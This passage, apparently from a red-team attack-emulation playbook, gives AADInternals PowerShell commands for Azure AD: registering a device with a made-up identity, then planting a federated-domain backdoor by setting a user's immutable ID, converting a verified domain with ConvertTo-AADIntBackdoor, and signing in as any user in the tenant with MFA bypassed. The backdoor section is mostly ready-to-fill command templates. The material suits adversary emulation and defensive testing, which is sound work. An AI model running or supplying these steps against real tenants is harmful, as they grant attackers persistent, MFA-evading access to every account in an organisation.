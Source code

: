 Authenticate to Azure AD and save the token

```
PS> Get-AADIntAccessTokenForAADJoin -SaveToCache
```

Register a device: 

```
PS> Join-AADIntDeviceToAzureAD -DeviceName "{{ device_name }}" -DeviceType "{{ device_type }}" -OSVersion "{{ os_version }}" -JoinType Register
```

  - This will save a `.pfx` certificate to the current working directory, which is needed for cleanup
  - Note: The provided values do not need to refer to real characteristics

### Cleanup

Remove the device from Azure AD 

```
PS> Remove-AADIntDeviceFromAzureAD -PfxFileName {{ pfx_certificate_file }}
```

## Azure AD Domain Federation - Backdoor via AADInternals

Use AADInternals to create a backdoor federation domain for persisting access to an environment.

### Prerequisites

- AADInternals installed
  - `Install-Module AADInternals`
- Permissions to modify domain authentication settings
  - and an access token for the user with these permissions, referred to as `$at` in example commands. To retrieve a token, use `$at=Get-AADIntAccessTokenForAADGraph -Credentials (get-credential)` and proceed through the prompts
- A target verified domain in Azure AD
  - To add a domain, Go to Azure AD -> custom domain names -> add -> set the provided DNS records for your domain -> wait for the verification to compelete
- A user with an immutable ID set
  - To set an immutable ID for a user: `Set-AADIntUser -UserPrincipalName {{ upn_or_email }} -ImmutableId "{{ id }}" -AccessToken $at` where the `id` is an arbitrary unnique value

### Guidance

To set the backdoor 

```
PS> ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "{{ domain }}"
```

To use the backdoor. This works for any user in the tenant, regardless of their domain.

```
Open-AADIntOffice365Portal -ImmutableID {{ id }} -UseBuiltInCertificate -ByPassMFA $true -Issuer {{ issuer }}
```
